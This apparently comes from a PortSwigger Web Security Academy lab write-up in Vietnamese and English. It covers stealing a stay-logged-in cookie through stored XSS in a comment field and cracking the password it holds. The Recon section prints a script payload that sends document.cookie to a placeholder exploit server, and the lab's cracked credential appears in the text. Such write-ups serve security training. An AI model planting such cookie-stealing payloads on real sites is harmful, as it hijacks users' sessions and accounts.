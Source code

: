 # Target

This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's stay-logged-in cookie and use it to crack his password. Then, log in as carlos and delete his account from the "My account" page.

# Recon

Một trong những cách phổ biến để leak cookie và ở đây cần lấy là cookie stay-login đó chính là stored XSS `<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>`

![image](https://github.com/vanniichan/Portswigger/assets/112863484/82e4429c-df97-47d8-a47e-8ed6bedb1524)

Sau đó lấy được password

![image](https://github.com/vanniichan/Portswigger/assets/112863484/6e6a9710-1d32-4acf-9533-3fd36a0576ed)

`carlos:onceuponatime`

![image](https://github.com/vanniichan/Portswigger/assets/112863484/54f5793f-9a28-48c7-98f4-bb2a377009c0)

# Flag:

![image](https://github.com/vanniichan/Portswigger/assets/112863484/931d775d-600b-45f3-a53c-5719a71c22c1)
